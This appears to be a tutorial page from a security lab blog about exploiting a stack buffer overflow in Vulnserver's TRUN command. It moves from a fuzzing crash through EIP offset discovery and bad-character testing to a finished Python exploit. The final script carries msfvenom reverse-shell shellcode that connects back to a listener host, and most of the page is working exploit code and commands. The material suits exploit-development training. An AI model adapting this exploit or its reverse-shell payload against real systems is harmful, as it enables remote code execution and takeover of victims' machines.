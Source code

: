 ```yaml
---
title: "TRUN EIP Overwrite"
layout: home
permalink: /vulnserver/trun/
collection: vulnserver
sidebar:
  nav: "main"
entries_layout: grid
classes: wide
---
```


Begin by using the below proof of concept script, developed by using the SPIKE fuzzer to identify a hole in the Vulnserver TRUN command.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: POC
import socket
import os
import sys

crash="A"*5000

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running this POC script against Vulnserver produces the same result in the OllyDbg debugger as our previous SPIKE fuzzing attempts. As a very nice bonus, the input we sent has been used to control the value of a very important register in the CPU – the EIP (Extended Instruction Pointer) register. Notice how the EIP register contains the value 41414141?

![trun-eip-overwrite-media-01](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-01.png)

Additional testing proves that a 2500 byte buffer will also cause the Vulnserver application to crash due to an access violation. Create a 2500 byte patterned string to identify which part of the buffer is being stored in the EIP.
	> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500

Insert the 2500 character pattern into the Vulnserver TRUN POC Python Script.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Pattern
import socket
import os
import sys

crash="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3>

buffer="TRUN /.:/"
buffer+=crash

print "Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running the Vulnserver TRUN Pattern Python Script against the target system shows that the following pattern value is being stored in EIP.

<!--- <p align="center">
  <img src="/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png">
  </p>
--->

![trun-eip-overwrite-media-02 align="center"](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png)

EIP address is 386F4337. Use the Metasploit pattern offset utility to identify where the bytes are located in the 2500 byte buffer.
	 > /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q 386F4337

![trun-eip-overwrite-media-03](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-03.png)

An exact match was found at offset 2003 bytes.  Modify the buffer in the POC script to now send 2003 "A" characters, 4 "B" characters, and 1993 "C" characters; this should overwrite EIP with 4 "B" characters while retaining a 4000 byte buffer size.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Control
import socket
import os
import sys

crash="A"*2003 + "B"*4 + "C"*1993

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```
Running the updated script against the Vulnserver crashes the server and produces the following EIP output in OllyDbg.

![trun-eip-overwrite-media-04](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-04.png)

![trun-eip-overwrite-media-05](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-05.png)

The crash buffer has successfully overwritten EIP with four (4) "B" "\x42" characters; we now have control over EIP. The next step is to identify any bad characters the might not work for our shellcode.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Bad Characters
import socket
import os
import sys

badchar=("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

crash="A"*2003 + "B"*4 + badchar  #"C"*1993

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```
![trun-eip-overwrite-media-06](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-06.png)

From looking at the output, we can tell that there are no bad characters other than \x00. Generate a reverse shell using msfvenom and insert it into the Vulnserver TRUN Python Script and proceed it with a 15 character NOP sled.
	> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.83.122 LPORT=4444 -b "\x00" -f c

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Shell
import socket
import os
import sys

shellcode=("\xda\xc5\xd9\x74\x24\xf4\x5d\xbb\xcc\xa2\xea\x74\x33\xc9\xb1"
"\x52\x83\xed\xfc\x31\x5d\x13\x03\x91\xb1\x08\x81\xd5\x5e\x4e"
"\x6a\x25\x9f\x2f\xe2\xc0\xae\x6f\x90\x81\x81\x5f\xd2\xc7\x2d"
"\x2b\xb6\xf3\xa6\x59\x1f\xf4\x0f\xd7\x79\x3b\x8f\x44\xb9\x5a"
"\x13\x97\xee\xbc\x2a\x58\xe3\xbd\x6b\x85\x0e\xef\x24\xc1\xbd"
"\x1f\x40\x9f\x7d\x94\x1a\x31\x06\x49\xea\x30\x27\xdc\x60\x6b"
"\xe7\xdf\xa5\x07\xae\xc7\xaa\x22\x78\x7c\x18\xd8\x7b\x54\x50"
"\x21\xd7\x99\x5c\xd0\x29\xde\x5b\x0b\x5c\x16\x98\xb6\x67\xed"
"\xe2\x6c\xed\xf5\x45\xe6\x55\xd1\x74\x2b\x03\x92\x7b\x80\x47"
"\xfc\x9f\x17\x8b\x77\x9b\x9c\x2a\x57\x2d\xe6\x08\x73\x75\xbc"
"\x31\x22\xd3\x13\x4d\x34\xbc\xcc\xeb\x3f\x51\x18\x86\x62\x3e"
"\xed\xab\x9c\xbe\x79\xbb\xef\x8c\x26\x17\x67\xbd\xaf\xb1\x70"
"\xc2\x85\x06\xee\x3d\x26\x77\x27\xfa\x72\x27\x5f\x2b\xfb\xac"
"\x9f\xd4\x2e\x62\xcf\x7a\x81\xc3\xbf\x3a\x71\xac\xd5\xb4\xae"
"\xcc\xd6\x1e\xc7\x67\x2d\xc9\x28\xdf\x7e\x73\xc1\x22\x80\x92"
"\x4d\xaa\x66\xfe\x7d\xfa\x31\x97\xe4\xa7\xc9\x06\xe8\x7d\xb4"
"\x09\x62\x72\x49\xc7\x83\xff\x59\xb0\x63\x4a\x03\x17\x7b\x60"
"\x2b\xfb\xee\xef\xab\x72\x13\xb8\xfc\xd3\xe5\xb1\x68\xce\x5c"
"\x68\x8e\x13\x38\x53\x0a\xc8\xf9\x5a\x93\x9d\x46\x79\x83\x5b"
"\x46\xc5\xf7\x33\x11\x93\xa1\xf5\xcb\x55\x1b\xac\xa0\x3f\xcb"
"\x29\x8b\xff\x8d\x35\xc6\x89\x71\x87\xbf\xcf\x8e\x28\x28\xd8"
"\xf7\x54\xc8\x27\x22\xdd\xf8\x6d\x6e\x74\x91\x2b\xfb\xc4\xfc"
"\xcb\xd6\x0b\xf9\x4f\xd2\xf3\xfe\x50\x97\xf6\xbb\xd6\x44\x8b"
"\xd4\xb2\x6a\x38\xd4\x96")

crash="A"*2003 + "\xAF\x11\x50\x62" + "\x90"*15 + shellcode

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Launch Vulnserver.exe without attaching it to OllyDbg and launch the Vulnserver TRUN Python Script.

![trun-eip-overwrite-media-07](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-07.png)
